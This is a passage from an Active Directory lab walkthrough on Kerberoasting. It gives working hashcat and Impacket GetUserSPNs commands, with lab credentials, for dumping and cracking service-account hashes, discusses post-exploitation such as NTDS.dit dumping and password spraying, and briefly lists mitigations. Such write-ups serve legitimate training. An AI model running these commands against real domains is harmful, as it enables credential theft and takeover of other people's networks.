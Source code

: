 copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt)

3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

Method 2 - Impacket

Impacket Installation -

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1.) `cd /opt` navigate to your preferred directory to save tools in

2.) download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

3.) `cd Impacket-0.9.19` navigate to the impacket directory

4.) `pip install .` - this will install all needed dependencies

Kerberoasting w/ Impacket -

1.) cd /usr/share/doc/python3-impacket/examples/ - navigate to where GetUserSPNs.py is located

2.) sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.197.112 -request - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash

What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

Mitigation - Defending the Forest

Kerberoasting Mitigation -

     Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
     Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

What is the HTTPService Password?

What is the SQLService Password?

## Task 5 AS-REP Roasting w/ Rubeus

## Task 6 Pass the Ticket w/ mimikatz

## Task 7 Golden/Silver Ticket Attacks w/ mimikatz

## Task 8 Kerberos Backdoors w/ mimikatz

## Task 9 Conclusion
